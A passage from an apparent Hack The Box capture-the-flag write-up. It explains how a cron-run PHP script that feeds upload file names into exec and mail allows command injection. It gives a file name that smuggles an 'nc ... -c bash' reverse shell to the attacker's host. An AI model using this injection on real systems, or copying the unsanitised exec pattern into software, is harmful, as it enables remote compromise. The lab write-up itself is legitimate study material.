 During enumeration of `guly`'s home directory, I noticed two interesting files, `crontab.guly` and `check_attack.php`.

<div class="filename"><span>crontab.guly</span></div>

```
*/3 * * * * php /home/guly/check_attack.php
```

<div class="filename"><span>check_attack.php</span></div>

~~~~php
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>
~~~~

If the files were to be believed, then a `cron` job will check and report to `guly` with `mail($to, $msg, $msg, $headers, "-F$value");` at every three minutes, for files in `/var/www/html/uploads` that doesn't begin with an IP address. This is easy to exploit. We can simply `touch` a file with a file name that begins with `;` to separate `sendmail` from the command that we want to execute.

```
$ touch ';nc 10.10.12.161 4321 -c bash'
```


[1]: https://www.hackthebox.eu/home/machines/profile/203
[2]: https://www.hackthebox.eu/home/users/profile/8292
[3]: https://www.hackthebox.eu/